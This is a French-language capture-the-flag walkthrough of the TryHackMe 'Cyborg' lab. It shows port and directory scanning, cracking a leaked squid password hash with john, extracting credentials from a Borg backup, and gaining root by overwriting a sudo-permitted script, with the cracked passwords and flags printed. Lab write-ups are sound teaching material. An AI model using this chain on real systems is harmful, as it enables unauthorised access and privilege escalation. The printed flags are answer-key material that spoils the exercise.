

# Cyborg #

## Task 1 Deploy the machine ##

**Deploy the machine**

Cliquez sur Start machine

## Task 2 Compromise the System ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.48.14 cyborg.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A cyborg.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 16:40 CEST
Nmap scan report for cyborg.thm (10.10.48.14)
Host is up (0.038s latency).
rDNS record for 10.10.48.14: cyborg
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/11%OT=22%CT=1%CU=32733%PV=Y%DS=2%DC=T%G=Y%TM=6113E19
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   32.14 ms 10.9.0.1
2   32.45 ms cyborg (10.10.48.14)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.04 seconds

```

**Scan the machine, how many ports are open?**

D'arpès le scan avec nmap on voit 2 ports ouverts.   

Réponse : 2

**What service is running on port 22?**

Sur le port 22 nmap nous indique que c'est le service SSH.    

Réponse : ssh

**What service is running on port 80?**

Sur le port 80 nmap nous indique que c'est le service HTTP.

Réponse : http   


La page principal est juste la page par défaut d'Apache.


```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://cyborg.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/admin                (Status: 301) [Size: 308] [--> http://cyborg.thm/admin/]
/etc                  (Status: 301) [Size: 306] [--> http://cyborg.thm/etc/]  
/index.html           (Status: 200) [Size: 11321]                             
/server-status        (Status: 403) [Size: 275]       

```

Gobuster nous montre deux répertoires cachés.   
\/admin    
\/etc        


sur \∕admin on est sur une page principale avec plusieurs menus.    


Dans le menu Admins on voit une discussion comme quoi des fichiers configurations seraient perdus sur le site.   


Dans etc trouve un autre lien sur squid.  


Dans quid il y un fichier passwd.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://cyborg.thm/etc/squid/passwd -nv
2021-08-11 17:06:04 URL:http://cyborg.thm/etc/squid/passwd [52/52] -> "passwd.1" [1]

tim@kali:~/Bureau/tryhackme/write-up$ cat passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

A l'intérieur du fichier nous avons couple nom et mot de passe sous forme hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ john passwd  -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2021-08-11 17:09) 5.882g/s 230400p/s 230400c/s 230400C/s 112806..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On le brute force avec john et nous trouvons un mot de passe.    
Le mot de passe est : squidward      


Dans archive on trouve un fichier.tar

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://cyborg.thm/admin/archive.tar -nv
2021-08-11 17:14:36 URL:http://cyborg.thm/admin/archive.tar [1566720/1566720] -> "archive.tar" [1]

tim@kali:~/Bureau/tryhackme/write-up$ tar -xf archive.tar 
tim@kali:~/Bureau/tryhackme/write-up$ cd home/
tim@kali:~/Bureau/tryhackme/write-up/home$ ls
field
tim@kali:~/Bureau/tryhackme/write-up/home$ cd field/
tim@kali:~/Bureau/tryhackme/write-up/home/field$ ls
dev
tim@kali:~/Bureau/tryhackme/write-up/home/field$ cd dev/
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev$ ls
final_archive
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev$ cd final_archive/
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive$ ls
config  data  hints.5  index.5  integrity.5  nonce  README
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive$ cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

On extrait l'archive on nous dit que c'est une sauvegarde Borg.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive$ sudo apt install borgbackup
Lecture des listes de paquets... Fait
Construction de l'arbre des dépendances... Fait
Lecture des informations d'état... Fait      
Les NOUVEAUX paquets suivants seront installés :
borgbackup libb2-1 python3-llfuse

```

On install borgbackup sur kaly linux on le trouve dans les dépots sinon sur le site web de borgbackup la procédure d'installation est expliquée suivant la distribution qui vous avez.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive$ borg list ./
Enter passphrase for key /home/tim/Bureau/tryhackme/write-up/home/field/dev/final_archive: 
Warning: The repository at location /home/tim/Bureau/tryhackme/write-up/home/field/dev/final_archive was previously located at /home/tim/Bureau/tryhackme/cyborg/home/field/dev/final_archive
Do you want to continue? [yN] Y
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

```

Borg nous liste une archive du nom de : music_archive     

```bash
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive$ mkdir extract
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive$ borg mount ./ ./extract/
Enter passphrase for key /home/tim/Bureau/tryhackme/write-up/home/field/dev/final_archive: 
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract$ ls
music_archive
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract$ cd music_archive/
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive$ ls
home
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive$ cd home/
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home$ ls
alex
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home$ cd alex/
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home/alex$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home/alex$ cd Documents/
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home/alex/Documents$ ls
note.txt
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home/alex/Documents$ cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

**What is the user.txt flag?**

On extrait la sauvegarde.
On dans le fichier note.txt on trouve des identifiants :  
Nom : alex     
Mot de passe : S3cretP@s3   


```bash
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home/alex/Documents$ ssh alex@cyborg.thm
The authenticity of host 'cyborg.thm (10.10.48.14)' can't be established.
ECDSA key fingerprint is SHA256:uB5ulnLcQitH1NC30YfXJUbdLjQLRvGhDRUgCSAD7F8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cyborg.thm,10.10.48.14' (ECDSA) to the list of known hosts.
alex@cyborg.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ cat /home/alex/user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

```

On se connect avec le identifiant.  
On lit le fichier user.txt.   

La réponse est : flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}    

**What is the root.txt flag?**

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

On a un script backup.sh qui peut exécuté avec sudo sans mot de passe.   

```bash
alex@ubuntu:~$ ls -la /etc/mp3backups/backup.sh 
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh

alex@ubuntu:~$ chmod +w /etc/mp3backups/backup.sh 

alex@ubuntu:~$ echo "cat /root/root.txt > /tmp/powned.txt" > /etc/mp3backups/backup.sh 

alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 

alex@ubuntu:~$ cat /tmp/powned.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

```

On voit que le script n'a pas les droits écriture mais qu'il appartient à alex.  
Comme le fichier nous appartient on nous donne les droits en écriture.  
On modifie le fichier pour qu'il lise le fichier root.txt et sauvegarde le résultat dans un endroit ou on peut le lire.   
On exécute avec les droits administrateur.  
On lit le flag dans fichier powned.txt.   

La réponse est : flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}   